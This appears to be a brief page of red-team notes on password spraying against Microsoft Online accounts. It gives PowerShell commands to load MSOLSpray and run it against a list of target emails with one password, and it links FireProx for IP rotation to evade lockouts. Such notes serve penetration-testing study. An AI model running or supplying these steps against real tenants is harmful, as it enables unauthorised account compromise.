 # Initial Access

## Password Spraying

**MSOLSpray**

* Import the module&#x20;

```powershell
. C:\Tools\MSOLSpray\MSOLSpray.ps1
```

* Start the attack

```powershell
Invoke-MSOLSpray -UserList C:\Users\user\Desktop\target-email.txt -Password "PasswordHere"
```

{% embed url="https://github.com/dafthack/MSOLSpray" %}

{% embed url="https://github.com/ustayready/fireprox" %}
IP rotation
{% endembed %}
